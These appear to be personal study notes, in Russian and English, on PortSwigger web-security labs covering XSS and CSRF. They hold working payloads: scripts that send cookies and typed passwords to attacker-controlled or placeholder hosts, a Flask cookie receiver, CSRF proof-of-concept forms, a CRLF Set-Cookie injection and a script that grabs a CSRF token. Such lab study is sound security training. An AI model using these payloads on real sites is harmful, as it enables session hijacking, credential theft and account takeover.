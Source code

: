# Exploiting cross-site scripting to steal cookies

[PayloadsAllTheThings - XSS - data-grabber-for-xs](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss)
Пример в CORS: 
```javascript
<script>
  fetch('https://{site.com}', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```
или
```html
<img src=x onerror=this.src="http://<my_server>:<port>/"+btoa(document.cookie)>
```
#### Exploiting cross-site scripting to capture passwords
Здесь представлена форма, которая ожидает ввода логина и пароля, и сказу отправляет из в коллаборатор.
```javascript
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method:'POST', mode:'no-cors', body:username.value+':'+this.value });">
```
### Python web-server to take cookie:
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def handle_post():
	message = request.data.decode('utf-8')
	print("Received message:", message)
	return 'Message recieved'
if __name__ == '__main__':
	app.run(port=8080)
```
#### Atack payload
```javascript
<iframe src="javascript:fetch('http://localhost:8080', { method: 'POST', body: 'message=Hello', headers: { 'Content-Type': 'text/plain' }}); ">
```
```javascript
<iframe src="javascript:fetch('http://localhost:8080', { method: 'POST', body: document.cookie, headers: { 'Content-Type': 'text/plain' }}); ">
```
# CSRF без всякой защиты (use exploit server)
https://portswigger.net/web-security/csrf/lab-no-defenses
Repeater -> Engagement tools -> Generate CSRF PoC 
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afc009604f04a3c817484ab003500e8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="zxc&#64;zxc&#46zxc" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
# CSRF уязвимости токена
## CSRF, когда проверка токена зависит от метода запроса (use exploit server)
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method
1. Repeater -> Change request method
2. Repeater -> Engagement tools -> Generate CSRF PoC
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a89008e03d199f389c89f8100bb0096.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="zxc&#64;zxc&#46;zxc" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## CSRF, когда проверка токена зависит от его наличия (use exploit server)
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present
just delete csrf token.
1. Repeater -> Change request method
2. Repeater -> Engagement tools -> Generate CSRF PoC
## CSRF, когда токен не привязан к сессии пользователя (use exploit server)
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session
Использовать свой токен в эксплойте на сервере
1. Proxy -> Intercept -> Intercept is off (to on) -> go to repeter
2. Repeater -> Engagement tools -> Generate CSRF PoC
## CSRF, когда токен привязан к не сеансовому cookie или дублирует не сеансовый cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie
Нужно в форме подвязать свои не сеансовые cookie. Это возможно, если найти пользовательский input, который недостаточно валидирован и передаёт своё значение в header ответа. 

Пусть существует возможность сделать поисковый запрос на сайте:
```http
GET /?search=qwe HTTP/2
Host: 0a5000e0034cd7ff82dc2511007f007e.web-security-academy.net
Cookie: csrfKey=LAKDqGn6ShUWMc54eSO2ZV176pPOh7Fi; session=fZSQ6mf9BoFyRGfEoI4q9WAYTTjG8Kaw
...
```
И получить ответ:
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=qwe; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3419

<!DOCTYPE html>
<html>
...
```
Тогда можно переписать запрос, вставив в него нужный нам `Set-Cookie`:
```http
GET /?search=q%0D%0ASet-Cookie:%20csrfKey=LAKDqGn6ShUWMc54eSO2ZV176pPOh7Fi%20Same-Site=None HTTP/2
Host: 0a5000e0034cd7ff82dc2511007f007e.web-security-academy.net
Cookie: csrfKey=LAKDqGn6ShUWMc54eSO2ZV176pPOh7Fi; session=fZSQ6mf9BoFyRGfEoI4q9WAYTTjG8Kaw
...
```
Тогда пэйлоадом будет выступать:
1. Repeater -> Engagement tools -> Generate CSRF PoC = $FORM
```html
$FORM
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()" />
```
# SameSite cookie
>**SameSite** - механизм безопасности браузера, который определяет, когда cookie веб-сайта включаются в запросы, исходящие от других веб-сайтов. Ограничения cookie SameSite обеспечивают частичную защиту от различных межсайтовых атак, включая CSRF, межсайтовые утечки и некоторые эксплойти CORS.
![[SameSite and Origin.png]]

|   |   |   |   |
|---|---|---|---|
|**Request from**|**Request to**|**Same-site?**|**Same-origin?**|
|`https://example.com`|`https://example.com`|Yes|Yes|
|`https://app.example.com`|`https://intranet.example.com`|Yes|No: mismatched domain name|
|`https://example.com`|`https://example.com:8080`|Yes|No: mismatched port|
|`https://example.com`|`https://example.co.uk`|No: mismatched eTLD|No: mismatched domain name|
|`https://example.com`|`http://example.com`|No: mismatched scheme|No: mismatched scheme|
![[SameSite ограничения.png]]
![[SameSite strict.png]]
# Exploiting XSS to perform CSRF
**Пользователь**, зашедший на страницу с **xss**, направит запрос и свой **csrf токен** на смену **email** на **'/my-account/change-email'**, если **токен** висит в **html**.
```javascript
<script>  
var req = new XMLHttpRequest();  
req.onload = handleResponse;  
req.open('get','/my-account',true);  
req.send();  
function handleResponse() {  
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
var changeReq = new XMLHttpRequest();  
changeReq.open('post', '/my-account/change-email', true);  
changeReq.send('csrf='+token+'&email=test@test.com')  
};  
</script>
```

